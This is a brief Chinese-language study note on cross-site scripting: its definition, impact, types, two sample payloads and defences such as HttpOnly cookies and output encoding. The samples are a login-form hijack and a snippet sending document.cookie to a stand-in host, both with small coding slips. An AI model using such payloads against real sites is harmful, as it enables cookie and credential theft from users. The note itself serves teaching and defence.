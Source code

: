 #### 基本概念
XSS：跨站脚本攻击，英文名称是Cross Site Script，XSS攻击，通常指黑客在存有安全漏洞的网站注入非法的 html 标签或者 javascript 代码，从而在用户浏览网页时，浏览器运行攻击代码，达到控制用户浏览器目的的一种攻击。举个例子：某个黑客发表了一篇文章其中包含了恶意的JS代码，所有访问这篇文章的人都会执行这段JS代码，这样就完成XSS攻击。
> XSS属于因输出值转义不完全引发的安全漏洞

#### 影响
1. 利用虚假输入表单骗取用户信息
2. 利用脚本窃取cookie，从而帮助攻击者发送恶意请求
3. 显示伪造的文章图片

#### 类型
DOM xss
反射型 xss
存储型 xss


#### 实现
例如：典型的表单圈套
```html
<div>
    <img src='...gif' alt='拍卖会'>
</div>
<form action='http://example.jp/login' method='get' id='login'>
<div>
  ID<input type='text' name='ID' value='"><script>var+f=document.getElementById('login');+f.action='目标网址';+f.method='get';<script><span+s="'/>
</div>
```

再如：
```javascript
var content=escape(document.cookie)//编码成字符串，现在用encodeURI 代替
document.write('<img src=http://hackr.jp/?');
document.write('content');
document.write('>');
```

#### 防御
1. HttpOnly：严格地说，HttpOnly并非为了对抗XSS——HttpOnly解决的是XSS后的Cookie劫持攻击。HttpOnly现在已经基本支持各种浏览器，但是HttpOnly只是有助于缓解XSS攻击，但仍然需要其他能够解决XSS漏洞的方案。
```
  // koa
  ctx.cookies.set(name, value, {
      httpOnly: true // 默认为 true
  })
```  
2. 输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。
3. HtmlEncode
> 当用户输入<script>window.location.href=”http://www.baidu.com”;</script>, 最终保存结果为 &lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。
 4. JavaScriptEncode:对下列字符加上反斜杠:",',\,\n,\r
